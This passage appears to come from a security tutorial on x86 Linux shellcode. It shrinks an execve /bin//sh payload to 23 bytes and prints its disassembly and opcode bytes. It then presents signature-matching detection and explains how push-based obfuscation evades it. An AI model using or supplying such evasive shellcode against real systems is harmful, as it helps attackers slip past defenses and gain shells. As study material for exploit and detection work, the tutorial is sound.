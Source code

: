 ### Zeroing out better

- Last thing to do is to zero out registers using `mul` instruction.
- With this we can save additional two bytes, because with one instruction we can zero out two registers.
- Have a look at `reduced_shellv2.asm` and you will see these two instructions:

```asm
    xor ecx,ecx
    mul ecx
```

- This will essentially zero out ecx, and have EAX multiplied by ECX (which is 0) and thus the result will be stored in EAX and EDX (which is also 0).
- And finally, we saved two more bytes:

```sh
$ printf `hexconvert bin/reduced_shellv2` | wc -c
23
```


## Shell Code Hiding

### Signature Matching Defenses

- `sig_matcher.c` is basic example of signature matching detection.

```sh
$ ./bin/sigmatch $(printf `hexconvert bin/longshell`)
Nope!
```

- Signature matching is detecting specific input that is contained within the executable that matches that of a shell code.
- It's a common way for defending against exploits.
- Look at the more advanced version of signature matching `sig_matcher_advanced.c`.
- This program will match any executable which has shell code indicative instructions like `mov al, 0xb` and `int 0x80`.
- How do you defeat this mechanism?

### Obfuscating Shell Code

- Signature matching detection can be __easily defeated with obfuscated or polymorphic shell code__.
- These shell codes somehow dynamically change their code to evade signature matching.

### Simple Push Based Obfuscation

- Idea is to rewrite `reduced_shellv2.asm` with just `push` instructions and one `call esp`.

```asm
08049000 <_start>:
 8049000:       31 c9                   xor    ecx,ecx
 8049002:       f7 e1                   mul    ecx
 8049004:       50                      push   eax
 8049005:       68 6e 2f 73 68          push   0x68732f6e
 804900a:       68 2f 2f 62 69          push   0x69622f2f
 804900f:       89 e3                   mov    ebx,esp
 8049011:       b0 0b                   mov    al,0xb
 8049013:       cd 80                   int    0x80
```
